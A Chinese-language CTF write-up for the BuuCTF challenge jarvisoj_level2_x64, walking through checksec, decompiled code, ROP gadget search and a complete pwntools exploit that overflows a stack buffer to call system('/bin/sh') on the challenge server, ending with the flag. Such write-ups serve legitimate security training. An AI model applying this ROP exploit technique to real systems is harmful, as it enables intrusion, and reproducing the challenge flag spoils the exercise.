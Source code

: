 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - ROP
---
```


# jarvisoj_level2_x64

## 前置工作

先 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec level2_x64
[*] '/home/ela/Pwn/level2_x64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

开启了 NX，排除 ShellCode

用 IDA 64 打开主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return system("echo 'Hello World!'");
}
```

在看一下函数 `vulnerable_function()`

```c
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  system("echo Input:");
  return read(0, buf, 0x200uLL);
}
```

感觉像可以构造 ROP 链，有 `system()`，地址为 `0x4004c0`

再 Shift + F12 找一下 `/bin/sh`，也有，地址为 `0x600a90`

思路已经很清晰了，在 `vulnerable_function()` 中的 `read()` 函数中造成栈溢出，然后执行 ROP 链，现在少一个 `pop rdi; ret` 的地址

于是使用 ROPgadget 查找，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ROPgadget --binary level2_x64 --only "pop|rdi|ret"
Gadgets information
============================================================
0x00000000004006ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b0 : pop r14 ; pop r15 ; ret
0x00000000004006b2 : pop r15 ; ret
0x00000000004006ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400560 : pop rbp ; ret
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
0x00000000004006ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004004a1 : ret

Unique gadgets found: 11
```

找到可利用的 `pop rdi; ret` 地址为 `0x4006b3`

接下来就可以构建 Exp

## 编写 Exp

```python
from pwn import *

io = remote("node4.buuoj.cn", 28252)
elf = ELF("./level2_x64")

system_addr = 0x4004c0
bin_sh_addr = 0x600a90
pop_rdi_ret = 0x4006b3

payload = b"A"*(0x80+0x8) + pack(pop_rdi_ret, 64) + pack(bin_sh_addr, 64) + pack(system_addr, 64)
io.sendline(payload)

io.interactive()

```

很简单，最后得到的 Flag 为 `flag{3564fa65-d4d2-47d9-a9c9-2187cc2bb947}`
